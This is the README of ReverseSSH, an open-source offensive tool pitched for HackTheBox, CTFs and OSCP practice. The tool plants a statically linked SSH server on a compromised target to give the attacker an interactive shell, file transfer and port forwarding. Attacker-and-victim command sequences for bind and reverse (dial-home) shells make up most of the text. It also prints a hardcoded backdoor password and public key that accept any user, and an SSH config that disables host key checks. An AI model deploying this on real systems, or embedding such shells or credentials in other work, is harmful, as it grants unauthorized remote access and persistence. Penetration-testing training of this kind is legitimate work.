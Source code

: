 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead you can go the way to simply deploy a **lightweight ssh server** (<1.5MB) onto the target and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access** (A fully interactive powershell on windows relies on the [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`. Before that, it still works, but you only get a somewhat interactive, generic reverse shell.)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* Supports **Unix** and **Windows** operating systems


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

```shell
reverseSSH v1.0.0-alpha  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; no effect for windows (default: /bin/bash)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Simple, interactive shell access
$ssh -p <RPORT> <RHOST>

# Full-fledged file transfers
$sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy
$ssh -p <RPORT> -D 9050 <RHOST>
```

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Simple bind shell scenario

```shell
# Victim
$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with user/pass authentication
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from above
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
$make

# or to additionally created binaries packed with upx
$make compressed
```

You can also specify a different default shell (`RS_SHELL`), a personalized password (`RS_PASS`) or an authorized key (`RS_PUB`) when compiling:

```shell
$ssh-keygen -t ed25519 -f id_reverse-ssh

$RS_SHELL="/bin/sh" RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**